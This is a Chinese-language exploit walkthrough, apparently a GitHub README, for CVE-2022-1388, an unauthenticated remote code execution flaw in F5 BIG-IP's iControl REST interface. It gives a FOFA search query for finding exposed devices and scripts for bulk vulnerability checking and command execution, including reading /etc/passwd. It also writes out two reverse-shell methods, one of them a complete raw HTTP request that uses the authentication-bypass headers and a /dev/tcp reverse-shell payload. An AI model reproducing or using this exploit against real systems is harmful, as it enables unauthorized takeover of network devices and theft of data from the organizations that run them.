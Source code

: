 # 0x01 漏洞概述
F5 BIG-IP是美国F5公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。`iControl REST` 是iControl框架的演变，使用 REpresentational State Transfer (REST)。这允许用户或脚本与 F5 设备之间进行轻量级、快速的交互。

该漏洞允许未经身份验证的攻击者通过管理端口或自身 IP 地址对 BIG-IP 系统进行网络访问，以执行任意系统命令、创建或删除文件以及禁用BIG-IP上的服务。

# 0x02 影响版本
该漏洞存在于 BIG-IP 使用的 iControl REST 框架中，BIG-IP存在漏洞的版本如下：
- 16.1.0 - 16.1.2
- 15.1.0 - 15.1.5
- 14.1.0 - 14.1.4
- 13.1.0 - 13.1.4
- 12.1.0 - 12.1.6
- 11.6.1 - 11.6.5

# 0x03 FOFA DORK
> title="BIG-IP&reg;-+Redirect" && "Server" && server=="Apache"

# 0X04 环境搭建
https://www.i4k.xyz/article/weixin_37569048/100052755

# 0x05 漏洞复现
🔗 [CVE-2022-1388-EXP](https://github.com/bytecaps/CVE-2022-1388-EXP)

## 5.1、访问F5 BIG-IP平台界面

![image](https://user-images.githubusercontent.com/84888757/167933484-d6a7c2de-fd98-4d13-87b6-c32166bfa645.png)

## 5.2、漏洞验证
根据POC，先访问URL：https://xx.xx.xx.xx/mgmt/shared/authn/login，若响应中存在resterrorresponse，则确认存在漏洞。

🚩 小坑：check.py批量验证有漏洞的url，有的无法执行命令，无法进行下一步利用。

```
单个检测：python3 check.py -u url
批量检测：python3 check.py -f url.txt
```
![image](https://user-images.githubusercontent.com/84888757/167929154-d58ab8b5-4af7-4902-abc7-d76b8937fccc.png)

![image](https://user-images.githubusercontent.com/84888757/167934086-89ecd430-ef85-4d6a-b74b-74dadf035392.png)


## 5.3、命令执行
```
默认执行id命令：python3 exp.py -a true -u https://xx.xx.xx.xx/
执行指定命令：python3 exp.py -a true -u https://xx.xx.xx.xx/ -c "cat /etc/passwd"
```
![image](https://user-images.githubusercontent.com/84888757/167930074-206ef05c-6830-4122-9d6d-84c2a53a3335.png)

反弹shell（使用exp.py）
```
python3 exp.py -a true -u https://目标ip/ -c "bash -i >& /dev/tcp/攻击机ip/port 0>&1"
```

反弹shell（使用burp）
```
POST /mgmt/tm/util/bash HTTP/1.1
Host: xx.xx.xx.xx
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json
Connection: keep-alive, x-F5-Auth-Token
X-F5-Auth-Token: a
Authorization: Basic YWRtaW46
Content-Length: 86

{"command": "run", "utilCmdArgs": "-c 'bash -i >& /dev/tcp/攻击机ip/1111 0>&1'"}
```

![image](https://user-images.githubusercontent.com/84888757/167932957-5889c145-ca81-4f19-b588-474e52bd762c.png)


# 0x06 参考链接
- https://mp.weixin.qq.com/s/VE0StMn_dZ8VyaxDw1nHag
- https://www.ddosi.org/cve-2022-1388/
